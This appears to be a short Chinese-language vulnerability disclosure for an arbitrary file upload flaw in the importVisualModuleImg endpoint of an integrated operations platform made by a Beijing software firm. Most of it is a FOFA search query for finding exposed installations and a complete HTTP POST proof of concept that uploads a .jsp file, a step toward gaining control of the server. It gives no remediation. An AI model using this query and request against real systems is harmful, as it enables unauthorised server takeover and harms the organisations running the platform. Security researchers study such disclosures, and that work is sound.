 ## **北京中科聚网一体化运营平台importVisualModuleImg接口存在文件上传漏洞**

北京中科聚网信息技术有限公司的一体化运营平台是一个综合性的信息系统，旨在为企业或机构提供全方位的运营支持和管理服务。北京中科聚网信息技术有限公司一体化运营平台importVisualModuleImg接口存在文件上传漏洞，攻击者可利用此漏洞上传任意文件获取服务器权限。

## fofa

```yaml
title="一体化运营平台" || body="thirdparty/ueditor/WordPaster"
```

## poc

```yaml
POST /manage/tplresource/importVisualModuleImg?moduleId=2 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----9979a3f1-cdb1-43af-af88-a9b48b67cf71
Content-Length: 198
Cookie:  JSESSIONID=9438c497-92ad-4800-b821-20602adec4ac; rememberMe=dcOzuzCzFrtr02GhN9IwcsR9v759kvzO9wq/upEQ0jwsU5y/25kFW52CaKmZoRP7pwH979ifBBXB3b+li3PSXwZmxnh+bMgi6kv5vv8WNkNdy1pblj7sPxtwIm71auJPyyOl+aMKAhk/71leMQLpneRk/8f6USYL/acFuWhpjyuVU6oP6YJdIoCKGgdxAiUk; 

------9979a3f1-cdb1-43af-af88-a9b48b67cf71
Content-Disposition: form-data; name="file"; filename="tmp.jsp"
Content-Type: multipart/form-data

6666
------9979a3f1-cdb1-43af-af88-a9b48b67cf71--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407101850568.png)



